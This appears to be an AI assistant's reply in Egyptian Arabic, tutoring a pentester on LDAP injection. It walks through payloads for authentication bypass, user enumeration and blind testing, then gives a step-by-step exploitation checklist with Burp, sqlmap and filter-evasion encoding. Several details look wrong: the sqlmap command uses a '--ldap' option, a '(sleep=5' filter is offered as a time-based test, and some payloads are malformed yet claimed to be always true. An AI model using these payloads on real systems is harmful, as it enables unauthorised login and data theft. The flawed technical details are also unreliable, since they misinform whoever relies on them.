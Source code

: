 تمام، هنشرح **فهم LDAP وكيفية استغلاله** بعمق عملي مع أكواد وتفاصيل، وهنركز على الجوانب اللي تهمك كـ pentester. هقسم الموضوع لأجزاء عن فهم LDAP وتقنيات الاستغلال، وبعد كل جزء هحط خلاصة طريفة بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال. يلا نبدأ!

---

### **1. فهم LDAP: إيه هو وازاي بيشتغل؟**
#### **إيه هو؟**
LDAP (Lightweight Directory Access Protocol) هو بروتوكول بيستخدم للوصول لقواعد بيانات هرمية (Directories) زي Active Directory. بيخزن بيانات زي أسماء المستخدمين، الباسووردات، والإيميلات، وكتير من التطبيقات بتستخدمه للمصادقة أو البحث.

#### **ازاي بيشتغل؟**
LDAP بيستخدم استعلامات (Filters) شبه شجرة، مكتوبة بصيغة زي:
```
(uid=admin)(userPassword=123)
```
- `uid`: اسم المستخدم.
- `userPassword`: الباسوورد.
لو التطبيق بياخد مدخلات منك (زي يوزر نيم) ويحطها في الاستعلام من غير فلترة، تقدر تحقن أوامر تغير منطق الاستعلام.

#### **مثال عملي:**
- استعلام عادي:
  ```
  (&(uid=admin)(userPassword=123))
  ```
  معناه: "جيب اليوزر admin لو الباسوورد 123".
- لو حطيت في اليوزر نيم:
  ```
  admin)(&
  ```
  الاستعلام هيبقى:
  ```
  (&(uid=admin)(&)(userPassword=whatever))
  ```
  الـ `)(&` بيخليه True دايماً، فتدخل من غير باسوورد.

#### **خلاصة طريفة:**
تخيل إن LDAP زي دفتر تليفونات كبير، لو قلت للموظف "اديني رقم أحمد، وكمان أي حاجة تانية"، لو جابلك كل الأرقام يبقى هو اللي سابك تاخد كل حاجة!

---

### **2. استغلال LDAP: تجاوز المصادقة**
#### **إيه هو؟**
LDAP Injection بيسمحلك تتخطى اللوجين لو التطبيق بيثق في المدخلات بتاعتك من غير ما ينظفها.

#### **ازاي بيشتغل؟**
بتستخدم أحرف خاصة زي `*` (Wildcard) أو `)` (إغلاق قوس) عشان تعطل شرط الباسوورد.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (&(uid=admin)(userPassword=123))
  ```
- في حقل اليوزر نيم:
  ```
  admin)(&|(!(uid=*))
  ```
  الاستعلام هيبقى:
  ```
  (&(uid=admin)(&|(!(uid=*)))(userPassword=whatever))
  ```
  الـ `|(!(uid=*))` بيخليه دايماً True، فتدخل.

- **اختبار يدوي:**
  ```
  username: admin)(&
  password: test
  ```

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا أحمد وكفاية كده"، لو فتحلك الباب من غير ما يسأل عن كلمة السر، يبقى هو اللي نايم في النوبة!

---

### **3. استغلال LDAP: استخراج البيانات**
#### **إيه هو؟**
تقدر تستخدم LDAP Injection عشان تسحب بيانات زي أسماء المستخدمين أو الإيميلات لو التطبيق بيرجع نتايج من الديركتوري.

#### **ازاي بيشتغل؟**
بتحقن Wildcard `*` أو تعبيرات تجيب كل البيانات بدل حاجة محددة.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (uid=admin)
  ```
- في حقل البحث:
  ```
  *)(uid=*
  ```
  الاستعلام هيبقى:
  ```
  (uid=*)(uid=*)
  ```
  معناه: "جيب كل المستخدمين"، وكده هيطلعلك كل الـ uid.

- **اختبار يدوي:**
  ```
  search: *)(uid=*
  ```
  لو رجع قايمة مستخدمين، يبقى نجح.

#### **خلاصة طريفة:**
تخيل إنك بتقول للموظف "اديني بيانات أحمد، أو أي حد موجود"، لو جابلك الدفتر كله يبقى هو اللي فتحلك الخزنة!

---

### **4. استغلال LDAP: Blind Injection**
#### **إيه هو؟**
لو التطبيق مش بيرجع نتايج مباشرة، تقدر تستخدم تقنيات Blind عشان تتأكد من الثغرة وتستخرج بيانات بالتدريج.

#### **ازاي بيشتغل؟**
بتحقن شروط True/False أو تتأخر الاستجابة لو الشرط صح.

#### **مثال عملي:**
- **Boolean-Based:**
  ```
  admin)(uid=admin
  ```
  لو دخلت (True)، جرب:
  ```
  admin)(uid=wrong
  ```
  لو رفض (False)، يبقى شغال.

- **Time-Based:**
  لو مدموج مع داتابيز تانية:
  ```
  admin)(sleep=5
  ```
  لو الصفحة تأخرت 5 ثواني، يبقى في ثغرة.

#### **خلاصة طريفة:**
تخيل إنك بتسأل البواب "لو أنا أحمد افتح، لو مش أحمد استنى شوية"، لو استنى يبقى كده فتحتلك الباب بالذكاء!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **فهم الهدف:**
   - شوف لو التطبيق بيستخدم LDAP (زي رسالة خطأ تقول "LDAP Error" أو Active Directory).
   - جرب أي حقل إدخال (لوجين، بحث).

2. **تجاوز المصادقة:**
   - في اليوزر نيم:
     ```
     admin)(&
     ```
     أو:
     ```
     admin)(&|(!(uid=*))
     ```
     وأي باسوورد.

3. **استخراج البيانات:**
   - في حقل بحث:
     ```
     *)(uid=*
     ```
     لو رجع بيانات، دوّنها.

4. **اختبار Blind:**
   - Boolean:
     ```
     admin)(uid=admin
     ```
     ثم:
     ```
     admin)(uid=wrong
     ```
   - Time-Based:
     ```
     admin)(sleep=5
     ```

5. **استخدام أدوات:**
   - Burp Suite: اعترض الطلب وحط:
     ```
     username=admin)(&
     ```
   - sqlmap (لو مدموج):
     ```
     sqlmap -u "http://example.com/login.php" --data="username=admin&password=test" --ldap
     ```

#### **نصيحة:**
- لو في فلتر، جرب تشفير زي `%29%26` (يعني `)(&`).
- دوّن كل ردود السيرفر عشان تفهم النظام.

---

ها، عايز أشرح حاجة زيادة زي استخراج بيانات أكتر أو أعمق في أدوات؟